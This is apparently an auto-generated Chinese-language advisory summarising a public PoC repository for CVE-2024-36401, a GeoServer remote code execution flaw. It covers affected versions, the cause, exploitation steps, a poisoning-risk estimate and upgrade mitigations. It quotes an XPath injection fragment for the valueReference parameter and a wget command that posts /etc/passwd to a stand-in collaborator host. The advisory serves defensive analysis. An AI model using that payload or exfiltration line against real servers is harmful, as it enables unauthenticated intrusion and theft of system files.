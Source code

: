 ## CVE-2024-36401-GeoServer-RCE

**漏洞编号:** CVE-2024-36401

**漏洞类型:** 远程代码执行

**影响应用:** GeoServer

**危害等级:** 高危，允许未经身份验证的用户执行任意代码

**影响版本:** 受影响版本包括 2.23.0 到 2.23.5, 2.24.0 到 2.24.3, 2.25.0 到 2.25.1 以及低于 2.22.6 的版本

**利用条件:** 需要网络访问，GeoServer实例可访问。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2024-36401 是 GeoServer 中的一个远程代码执行 (RCE) 漏洞，存在于处理属性名称表达式的过程中。该漏洞源于 GeoTools 库不安全地将属性/属性名称传递给 commons-jxpath 库，该库在评估 XPath 表达式时可以执行任意代码。此漏洞影响所有 GeoServer 实例，因为 XPath 评估不正确地应用于简单要素类型。

**有效性分析：**
根据漏洞描述和提供的POC代码，此漏洞很可能有效。POC 代码通过 `GetPropertyValue` 请求，利用 `valueReference` 参数执行任意代码。POC代码中使用了 `exec(java.lang.Runtime.getRuntime(),"<PAYLOAD>")`，这允许攻击者在服务器上执行命令。

**投毒风险分析：**
提供的POC代码本身旨在利用漏洞执行命令，例如`wget --post-file=/etc/passwd <BURP COLLOBRATOR>`。这表明，使用该代码的目的本身就是攻击和信息窃取。从代码本身来看，没有明显的迹象表明存在作者隐藏的“投毒”代码，例如篡改受害者系统上的其他文件或执行其他恶意操作，但不能排除。
仓库本身可能存在投毒风险，例如，如果存在其他隐藏的脚本或配置，则可能会导致更广泛的损害。因此，保守估计投毒风险为10%。

**利用方式：**
1.  攻击者构造恶意的OGC（例如WFS GetPropertyValue、WFS GetFeature、WMS GetMap、WMS GetFeatureInfo、WMS GetLegendGraphic 和 WPS Execute）请求。
2.  在请求的参数中，例如 `valueReference`，注入包含恶意代码的 XPath 表达式。示例中使用的是`exec(java.lang.Runtime.getRuntime(),"<PAYLOAD>")`。
3.  GeoServer在处理请求时，会将该表达式传递给存在漏洞的 GeoTools 库进行处理。
4.  `commons-jxpath` 库执行该恶意代码，导致远程代码执行。
5.  攻击者可以利用此漏洞在服务器上执行任意命令，例如反弹 shell、读取敏感文件等。

**缓解措施：**
*   升级到 GeoServer 2.22.6、2.23.6、2.24.4 或 2.25.2 及以上版本。
*   作为临时解决方案，可以从 GeoServer 中删除 `gt-complex-x.y.jar` 文件，但这可能会影响某些功能。

**项目地址:** [punitdarji/GeoServer-CVE-2024-36401](https://github.com/punitdarji/GeoServer-CVE-2024-36401)

**漏洞详情:** [CVE-2024-36401](https://nvd.nist.gov/vuln/detail/CVE-2024-36401)